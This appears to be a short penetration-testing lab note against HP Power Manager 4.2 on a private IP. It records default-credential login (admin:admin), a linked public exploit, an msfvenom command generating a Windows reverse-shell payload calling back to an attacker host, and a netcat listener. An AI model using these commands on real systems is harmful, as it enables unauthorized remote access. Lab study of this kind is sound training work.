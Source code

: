 #InProgress 
```IP
192.168.168.45
```

# Enumeration

## HTTP 80
admin:admin
we are in
HP Power Manager 4.2 (Build 7)
# Exploitation
https://www.exploit-db.com/exploits/10099
```
msfvenom -p windows/shell_reverse_tcp -f exe --platform windows -a x86 -e x86/alpha_mixed -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.237 LPORT=443
```
```
nc -lvp 443
```

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

